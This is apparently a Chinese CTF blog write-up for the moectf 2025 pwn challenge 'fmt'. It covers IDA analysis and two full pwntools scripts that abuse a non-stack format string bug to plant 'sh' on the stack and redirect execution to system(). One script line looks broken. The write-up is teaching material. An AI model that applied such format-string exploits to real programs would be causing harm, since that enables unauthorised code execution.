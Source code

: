 ```yaml
---
title: moectf-2025-pwn-fmt
tags:
    - fmt
    - pwn
categories:
    - 比赛记录
cover: /img/治不开心药.png
---
```

# fmt

## 前言

一个平常的下午，学妹让我帮忙看看题。起初我不以为意，吃完晚饭才开始看。然后就写到了1点钟。感觉自己的思路还是太丑陋，不优雅。于是想起了一个格式化字符串的极限利用。
[一次有趣的格式化字符串漏洞利用 | ZIKH26's Blog](https://zikh26.github.io/posts/a523e26a.html#%E7%A8%8B%E5%BA%8F%E4%BF%9D%E6%8A%A4)
开始研究

## ida分析

### main函数

![image-20250810223742657](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250810223742657.png)

功能非常的简单，

1. 循环3次调用talk，需要控制flag的值（后续再看）
2. atk判断，成功则调用he()

先看he()里有啥。

### he函数

![image-20250810224024236](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250810224024236.png)

这里建议看汇编，

1. system的出现，让人思路开朗
2. command是`-0xe`，也就是要控制`rbp-0xe`
3. 注意lea 和 mov 的区别，通过这个方法的话，必须要把"/bin/sh"写在栈上

一般揣测一下出题人的想法，肯定是最后要返回到这里了。

### talk函数

![image-20250810224845139](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250810224845139.png)

重点来了，

1. 非栈上格式化字符串,每次只读0x20字节
2. flag初始是0,talk会把它变成1,想办法置0
3. 返回到了my_read,继续追踪

![image-20250810225109891](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250810225109891.png)

看看bss段上,这些变量的位置

![image-20250810225315432](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250810225315432.png)

atk在flag上面,那么就可以利用my_read把flag设置成0 ,只要每次都输入8字节就可以.

## 思路分析

1.通过格式化字符串去修改command,和返回地址.让程序最后跳转执行,getshell
2.但是，常规的思路，需要的格式化次数不止3次。

> 1. %p泄露栈地址
> 2. 把rbp链入（因为此题目栈上无`诸葛连弩`，要自己建）
> 3. 修改啥也不行，没次数了

3.所以笔者在这里用了一些奇怪的方法。

>1. 笔者开始想，因为`i`也是在栈上的，所以我可以修改`i`来增加次数
>2. 但是，恰因如此，如果修改rbp，那么会影响下次循环对`i`的判断，
>3. 于是笔者又注意到栈上有很多0，控制好rbp，其实也是可以的 。
>4. 所以在笔者的精心的构造下，完成了10次格式化字符串的修改。
>5. 比较重要的就是两个$n的运用。一个把`sh`写在了栈上,一个把最后修改返回地址前的,rbp-0x4 修改好了.

4.笔者又再反思,可不可以利用格式化字符串的极限,两次把所需的改完.答案是可以.

## exp

### 10次格式化字符串

```python
from esy import *
context.log_level="debug"
#context.terminal=["tmux","splitw","-h","-l","66%"]
io,elf=loadfile("./pwn")


# 1 leak stack
payload=b"%8$p"
io.sendafter("...\n",payload)
rbp=int(io.recv(14),16)-0x20
#logv("rbp",hex(rbp))
rbp_low=rbp & 0xffff
fmt_low=0x4040c0 & 0xffff
io.sendafter("battle!",b"a"*8)

#2，3 rbp链入,修改rbp 
payload = '%{}c%6$hn'.format(rbp_low).encode()
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)

payload = '%{}c%47$hn\x00'.format(rbp_low+0x38).encode()
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)
#4,5,6 'sh'写入栈,修改rbp,把rbp+0x3e-4 链入并置0
payload = '%{}c%8$n\x00'.format(0x6873).encode() # 1 canshuxieshangl

io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)

payload = '%{}c%47$hn'.format(rbp_low+0x58).encode()
payload+= '%{}c%6$hn\x00'.format((0x38+0xe-4-0x58+0x10000)%0x10000).encode() # 0
print(5)
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)

payload = '%{}c%47$n\x00'.format(0x00).format() # 1
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)


######7 把rbp再次链入
payload = '%{}c%6$hn\x00'.format(rbp_low).encode()
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)
#####8 修改rbp 为rbp_low+0x38+0xe
payload = '%{}c%47$hn\x00'.format(rbp_low+0x38+0xe).encode()
payload = payload.ljust(0x20,b'\x00')
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)
gdb.attach(io,"b *0x401332")
##### 9 把rbp+8 链入
payload = '%{}c%6$hn\x00'.format(rbp_low+8).encode()
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)
##### 10 修改返回地址
payload = '%{}c%47$hn'.format(0x1274).encode()
print(len(payload))
payload +=b'/bin/sh\x00'
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)
io.interactive()


```

### 优雅至极

```python
from esy import *
context.log_level="debug"
#context.terminal=["tmux","splitw","-h","-l","66%"]
io,elf=loadfile("./pwn")
gdb.attach(io,"b *0x401332")

# 1 leak stack
payload=b"%8$p"
io.sendafter("...\n",payload)

rbp=int(io.recv(14),16)-0x20
#logv("rbp",hex(rbp))
rbp_low=rbp & 0xffff
fmt_low=0x4040c0 & 0xffff
io.sendafter("battle!",b"a"*8)

#2 gouzao 
payload =  b"%p" * 4 
payload += '%{}c%hn'.format(rbp_low+0x20-0x4-40).encode()
payload+= '%{}c%47$hn'.format((0x6873-(rbp_low+0x20)+0xe)).encode()
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)

# 3 
payload = b"%p" *4 
payload+= '%{}c%hn'.format(rbp_low+0x12-40).encode()
payload+= '%{}c%47$hn'.format((0x1274-(rbp_low+0x38)+0x30+0x10000)%0x10000).encode()
io.sendafter("...\n",payload)
io.sendafter("battle!",b"a"*8)

io.interactive()

```

